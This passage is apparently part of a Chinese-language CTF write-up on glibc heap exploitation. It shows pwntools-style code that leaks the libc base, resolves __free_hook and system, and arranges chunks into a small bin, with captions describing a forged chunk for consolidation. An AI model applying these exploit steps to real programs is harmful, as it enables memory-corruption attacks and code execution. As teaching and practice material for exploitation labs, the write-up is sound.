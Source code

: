 [![](assets/1701606615-30380042607d29d2bcd14ec14f066a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212945-0ac74654-83bb-1.png)  
泄露一下 libc 然后，把 chunk 链入 small bin 中

```bash
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')
```

[![](assets/1701606615-1978865330df484557ea2e1c2d9a9300.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213004-15ac9b96-83bb-1.png)  
然后在下面那个位置伪造 chunk 来进行合并